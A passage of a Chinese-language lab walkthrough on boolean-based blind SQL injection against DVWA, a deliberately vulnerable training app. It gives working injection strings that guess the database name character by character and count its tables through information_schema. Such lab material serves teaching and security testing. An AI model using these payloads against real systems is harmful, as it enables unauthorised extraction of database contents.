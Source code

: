 可以得到数据库的长度为4



#### 尝试猜解数据库名

从数据库名的第一位字符开始，依次猜解每一位的字符，猜解使用二分法

##### 原理

```
先用 substr(database(),1,1) 截取数据库的第一位字符
再用 ascii() 将第一位字符转成ASCII值
再判断 该值是否大于字符a(97)的ASCII值
如果提示用户存在，则大于a，否则不大于a
```



##### 尝试

```
1' and ascii(substr(database(),1,1))>97 # 提示用户存在，说明数据库名第一位字符的ASCII值大于97(a)
1' and ascii(substr(database(),1,1))<122 # 提示用户存在，说明数据库名第一位字符的ASCII值小于122(z)
1' and ascii(substr(database(),1,1))<109 # 提示用户存在，说明数据库名第一位字符的ASCII值小于109(m)
....
1' and ascii(substr(database(),1,1))>99 # 提示用户存在，说明数据库名第一位字符的ASCII值大于99(c)
1' and ascii(substr(database(),1,1))<100 # 提示用户不存在，说明数据库名第一位字符的ASCII值不小于100(d)
最后两个条件可以得出，第一位大于c，但不小于d，所以第一位为d

继续验证后面三位
1' and ascii(substr(database(),2,1))>97 # 提示用户存在，说明数据库名第二位字符的ASCII值大于97(a)
...
```

得出数据库名为：dvwa



### 猜解数据库的表

#### 猜解数据库的表的数量

##### 原理

```
在MySQL中，使用下面语句可以查出对应数据库有多少张表
select count(table_name) from information_schema.tables where table_schema='dvwa'

再依次判断该值
如果提示用户存在，则猜测正确，否则猜测错误
```



##### 尝试

```
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')=1 # 提示不存在

1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')=2 # 提示存在
```

